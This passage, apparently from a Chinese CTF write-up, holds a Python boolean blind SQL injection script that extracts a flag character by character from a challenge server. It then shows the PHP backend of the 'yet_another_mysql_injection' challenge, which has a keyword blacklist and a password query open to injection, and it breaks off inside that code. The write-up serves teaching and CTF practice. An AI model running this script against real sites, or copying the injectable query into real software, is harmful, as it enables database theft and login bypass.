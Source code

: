 ```python
	strings = string.printable # 可打印字符集，包含字母、数字、标点符号等
	for num in range(1,60):#假设 flag 的长度不超过 60 个字符（num 表示字符位置）。
		for i in strings:#遍历所有可打印字符，尝试通过SQL查询来猜测对应位置的字符
			payload = '(select(ascii(mid(flag,{0},1))={1})from(flag))'.format(num,ord(i))
            #payload 是构造的SQL查询语句，使用 mid(flag,{0},1) 来获取 flag 在第 num 位置的字符。ascii(mid(flag,{0},1))={1} 是通过 ASCII 值来判断字符是否匹配。

{0} 是 num，即当前正在猜测的字符位置；{1} 是 ord(i)，即字符 i 的ASCII值。

例如，当 num=1 和 i='A' 时，构造的SQL负载可能是：(select(ascii(mid(flag,1,1))=65)from(flag))，65 是字母 'A' 的ASCII值
			post_data = {"id":payload}
			res = requests.post(url=url,data=post_data)
			if 'Hello' in res.text:
				flag += i
				print(flag)
			else:
				continue
	print(flag)


if __name__ == '__main__':
	url = 'http://node4.anna.nssctf.cn:28911/index.php'
	blind_injection(url)

```
# [第五空间 2021]yet_another_mysql_injection

>qunine注入

后端代码
```php
<?php
include_once("lib.php");
function alertMes($mes,$url){
    die("<script>alert('{$mes}');location.href='{$url}';</script>");
}

function checkSql($s) {
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}

if (isset($_POST['username']) && $_POST['username'] != '' && isset($_POST['password']) && $_POST['password'] != '') {
    $username=$_POST['username'];
    $password=$_POST['password'];
    if ($username !== 'admin') {
        alertMes('only admin can login', 'index.php');
    }
    checkSql($password);
    $sql="SELECT password FROM users WHERE username='admin' and password='$password';";
    $user_result=mysqli_query($con,$sql);
    $row = mysqli_fetch_array($user_result);
    if (!$row) {
        alertMes("something wrong",'index.php');
    }
    if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```